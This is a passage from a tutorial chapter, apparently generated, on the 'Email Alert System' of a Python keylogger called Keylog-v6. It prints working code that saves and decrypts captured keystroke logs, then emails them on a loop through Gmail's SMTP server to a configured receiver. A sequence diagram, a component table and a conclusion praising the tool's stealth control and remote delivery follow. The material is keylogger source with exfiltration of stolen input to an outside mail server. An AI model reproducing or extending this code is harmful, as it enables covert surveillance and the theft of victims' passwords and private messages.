                 wait_interval = int(self.email_config["interval"])
                 if wait_interval <= 0: wait_interval = 300 # Prevent infinite loop if interval is 0 or negative
            except (ValueError, TypeError):
                 wait_interval = 300

            time.sleep(wait_interval) # Pause the thread

```

This method handles the core loop. It saves logs (which clears `self.keys` as seen in [Chapter 7](07_log_file_management_.md)), reads the resulting encrypted file, decrypts it using `self.cipher` (linking back to [Chapter 6](06_data_encryption_.md)), and then uses the readable text to send an email. It includes error handling and pauses using `time.sleep()` for the specified interval. Notice the use of `self.root.after(0, ...)` for GUI updates (like showing an error or the "[EMAIL SENT]" status) – this is necessary because you cannot directly update Tkinter widgets from a background thread.

### Sending the Email Details

The actual sending of the email within the `email_logs_periodically` loop is handled by calling a helper method, `self.send_log_email(content)`. This method uses Python's built-in `smtplib` and `email.mime.text` libraries to connect to an email server and send the message.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def send_log_email(self, content):
        # Create the email message object
        msg = MIMEText(content) # The 'content' is the decrypted log text

        # Set email headers (Subject, From, To) using values from self.email_config
        msg["Subject"] = f"Keylogger Log {datetime.datetime.now().strftime('%Y-%m-%d')}" # Subject includes the date
        msg["From"] = self.email_config["email"] # Sender email
        msg["To"] = self.email_config["receiver"] # Receiver email

        # Connect to the Gmail SMTP server using SSL for security (port 465)
        # This part is specific to Gmail, but many email providers use similar settings
        with smtplib.SMTP_SSL("smtp.gmail.com", 465) as server:
            # Log in to the sender email account using credentials from settings
            server.login(self.email_config["email"], self.email_config["password"])
            # Send the email from sender to receiver with the message content
            server.sendmail(self.email_config["email"], self.email_config["receiver"], msg.as_string())

        # Note: Any errors during connect, login, or send will raise an exception
        # that is caught in the email_logs_periodically method.
```

This method takes the decrypted log content, puts it into a standard email format, and sends it using your email account and the Gmail server settings. You might need to adjust the server address (`smtp.gmail.com`) and port (`465`) if you are not using Gmail. Also, remember the note about App Passwords if your email provider requires them for third-party applications.

### The Email Alert Flow

Here's a simplified flow showing how the Email Alert System works periodically when enabled:

```mermaid
sequenceDiagram
    participant EmailThread["Email Thread"]
    participant email_method["email_logs_periodically()"]
    participant AdvancedKeylogger
    participant LogFile["log_YYYY-MM-DD.txt"]
    participant CipherObject["self.cipher"]
    participant EmailSender["Email Server/<br>Sender Email"]
    participant ReceiverEmail["Receiver Email"]

    EmailThread->>email_method: Start loop
    loop while logging is active and email enabled
        email_method->>AdvancedKeylogger: Call save_log()
        AdvancedKeylogger->>LogFile: Save/Encrypt logs
        LogFile-->>AdvancedKeylogger: Confirmation
        email_method->>LogFile: Read encrypted content (rb)
        LogFile-->>email_method: Return encrypted_bytes
        email_method->>CipherObject: decrypt(encrypted_bytes)
        CipherObject-->>email_method: Return decrypted_bytes
        email_method->>email_method: Decode bytes to string (content)
        email_method->>email_method: Create MIMEText message
        email_method->>EmailSender: Connect, Login, Send mail (content)
        EmailSender->>ReceiverEmail: Deliver email
        EmailSender-->>email_method: Confirmation/Error
        alt Email Sent Successfully
            email_method->>AdvancedKeylogger: Schedule update_preview() (via root.after)
        else Email Failed
            email_method->>AdvancedKeylogger: Schedule messagebox.showerror() (via root.after)
        end
        email_method->>email_method: Wait (time.sleep)
    end
    email_method-->>EmailThread: Loop finishes (logging stopped or email disabled)
    EmailThread->>EmailThread: Thread exits
```

This diagram illustrates the cycle: save, read, decrypt, send, wait, repeat, as long as the conditions for emailing are met.

### Key Components for Email Alert System

Let's summarize the main pieces involved:

| Component                 | Description                                                                 | Role in Keylog-v6                                                        |
| :------------------------ | :-------------------------------------------------------------------------- | :----------------------------------------------------------------------- |
| `self.email_config`       | Dictionary in `AdvancedKeylogger`.                                          | Stores the email settings (enabled, sender, password, receiver, interval). |
| Email Settings GUI        | Checkbox (`ttk.Checkbutton`) and Entry fields (`ttk.Entry`) in the GUI.     | Allow the user to input and view email configuration.                    |
| `toggle_email_settings()` | Method in `AdvancedKeylogger` called by the email checkbox.                 | Enables/disables the email entry fields in the GUI.                      |
| `save_settings()`         | Method in `AdvancedKeylogger`.                                              | Reads the values from the email settings GUI and updates `self.email_config`. |
| `email_logs_periodically()` | Method in `AdvancedKeylogger`. Runs in a separate background thread.        | The main loop that periodically saves, decrypts, and sends logs via email. |
| `send_log_email(content)` | Helper method called by `email_logs_periodically()`.                        | Handles the technical steps of connecting to the email server and sending the message. |
| `smtplib` Library         | Python's standard library for sending email using the SMTP protocol.        | Used to connect to the email server, log in, and send the email.         |
| `email.mime.text.MIMEText`| Part of Python's standard email library.                                    | Used to create the structure and content of the email message body (plain text). |
| `time.sleep()`            | Python function for pausing execution.                                      | Used in `email_logs_periodically` to wait for the specified interval between emails. |
| `threading.Thread`        | Python library for running tasks in the background.                         | Used to run `email_logs_periodically` without freezing the GUI.          |
| `self.cipher`             | The `Fernet` object from [Chapter 6: Data Encryption](06_data_encryption_.md). | Used to decrypt the log content read from the file before sending.       |
| `save_log()`              | Method from [Chapter 7: Log File Management](07_log_file_management_.md).   | Called before emailing to ensure the latest collected logs are saved and encrypted to the daily file. |
| `self.root.after(0, ...)` | Method used to schedule a function call on the main GUI thread.             | Used to safely update the GUI (like showing status messages or errors) from the email thread. |

The Email Alert System provides a powerful way to receive log data remotely, leveraging the application's existing log handling, encryption, and saving mechanisms.

### Conclusion

In this chapter, we explored the **Email Alert System**, the component that enables Keylog-v6 to act as a remote messenger. We saw how to configure the necessary email settings (sender, password, receiver, interval) using the GUI and how these settings are stored. We then learned that the emailing process runs in a separate background thread, started when logging begins, and how it periodically saves the current logs, decrypts them, and sends them to the configured email address using Python's `smtplib` library.

This concludes our journey through the core components of the Keylog-v6 application. We have now covered how the application listens for input, handles and encrypts the data, manages log files, provides stealth control, organizes sessions, and can even send logs to you remotely.

---
